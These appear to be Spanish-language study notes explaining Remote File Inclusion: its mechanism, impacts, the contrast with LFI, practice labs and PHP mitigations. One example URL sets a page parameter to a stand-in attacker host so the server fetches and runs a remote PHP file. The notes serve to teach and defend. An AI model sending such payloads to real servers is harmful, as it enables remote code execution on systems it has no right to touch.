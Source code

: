 
La vulnerabilidad **Remote File Inclusion (RFI)** es un tipo de falla de seguridad grave en aplicaciones web que permite a un atacante incluir y ejecutar archivos remotos maliciosos. Aquí te dejo una descripción completa sobre RFI, cómo funciona, los riesgos asociados y cómo prevenirla.

---

### **¿Qué es Remote File Inclusion (RFI)?**

RFI ocurre cuando una aplicación web permite a un atacante incluir un archivo ubicado en un servidor externo a través de parámetros de entrada que no han sido validados correctamente. Esto puede llevar a:

- La ejecución de código malicioso en el servidor web.
- El compromiso total del sistema, permitiendo al atacante tomar el control.

---

### **¿Cómo funciona un ataque RFI?**

Un ataque RFI generalmente se produce cuando la aplicación web utiliza entradas del usuario para cargar archivos de manera dinámica sin realizar validaciones adecuadas.

#### **Ejemplo básico**

Supongamos que la aplicación web tiene un parámetro `page` que se utiliza para incluir archivos:

```
http://example.com/index.php?page=about
```

Un atacante podría explotar la vulnerabilidad apuntando a un archivo remoto:

```
http://example.com/index.php?page=http://malicious-site.com/malicious.php
```

En este caso:

1. La aplicación incluye el archivo remoto `malicious.php` desde el servidor controlado por el atacante.
2. El servidor web ejecuta el código malicioso del archivo, permitiendo al atacante realizar acciones no autorizadas.

---

### **Posibles impactos de un ataque RFI**

1. **Ejecución de código remoto**:
    
    - El archivo remoto malicioso puede contener código PHP diseñado para otorgar al atacante acceso completo al servidor.
2. **Compromiso del sistema**:
    
    - Descarga de malware, troyanos o herramientas de control remoto.
3. **Robo de datos**:
    
    - Acceso a información sensible como configuraciones, credenciales o datos de usuarios.
4. **Creación de puertas traseras**:
    
    - El atacante puede instalar scripts para mantener el acceso al servidor incluso después de solucionar la vulnerabilidad.

---

### **Herramientas y recursos relacionados**

1. **Laboratorio de RFI**:
    
    - **[DVWP (Damn Vulnerable Web Project)](https://github.com/vavkamil/dvwp)**: Proyecto diseñado para practicar y comprender vulnerabilidades web como RFI.
2. **Plugin vulnerable de WordPress**:
    
    - **[Gwolle Guestbook](https://es.wordpress.org/plugins/gwolle-gb/)**: Un plugin que ha sido utilizado en pruebas para demostrar vulnerabilidades como RFI.

---

### **Diferencias entre LFI y RFI**

|**Aspecto**|**LFI (Local File Inclusion)**|**RFI (Remote File Inclusion)**|
|---|---|---|
|**Origen del archivo**|Archivos locales en el servidor.|Archivos remotos desde un servidor externo.|
|**Nivel de impacto**|Limitado al acceso local, pero grave si combinado con otras vulnerabilidades.|Puede comprometer completamente el sistema.|
|**Requisitos**|Acceso a rutas locales del servidor.|La aplicación debe permitir incluir URLs remotas.|

---

### **Mitigación y prevención de RFI**

1. **Validación y sanitización de entradas del usuario**:
    
    - Validar los datos que recibe la aplicación mediante listas blancas.
    - Asegurarse de que los parámetros solo acepten rutas y nombres de archivo válidos.
    - Ejemplo en PHP:
        
        ```php
        $allowed_pages = ['home', 'about', 'contact'];
        if (in_array($_GET['page'], $allowed_pages)) {
            include($_GET['page'] . '.php');
        } else {
            die('Acceso no permitido');
        }
        ```
        
2. **Configuración de PHP para deshabilitar inclusiones remotas**:
    
    - En el archivo `php.ini`, desactivar las configuraciones que permiten incluir URLs remotas:
        
```ini
allow_url_fopen = Off
allow_url_include = Off
```
        
3. **Restringir permisos en el servidor**:
    
    - Configurar el servidor web para evitar accesos no autorizados a directorios sensibles.
4. **Uso de firewalls de aplicaciones web (WAF)**:
    
    - Un WAF puede detectar y bloquear solicitudes maliciosas en tiempo real.
5. **Mantener software actualizado**:
    
    - Actualizar regularmente aplicaciones, frameworks y plugins para evitar vulnerabilidades conocidas.

---

[[OWASP]]